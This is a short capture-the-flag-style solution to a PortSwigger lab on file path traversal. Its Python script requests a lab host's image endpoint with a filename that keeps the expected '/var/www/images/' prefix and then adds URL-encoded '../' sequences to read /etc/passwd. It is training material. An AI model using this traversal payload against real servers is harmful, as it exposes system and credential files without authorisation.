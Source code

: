 # Lab: File path traversal, validation of start of path

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-validate-start-of-path

Solution: 

```python
import requests

response = requests.get(
    'https://0a51004504a7e3b2c1aa2b25006e00b9.web-security-academy.net/image?filename=/var/www/images/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd',
    verify=False,
)

print(response.text)
```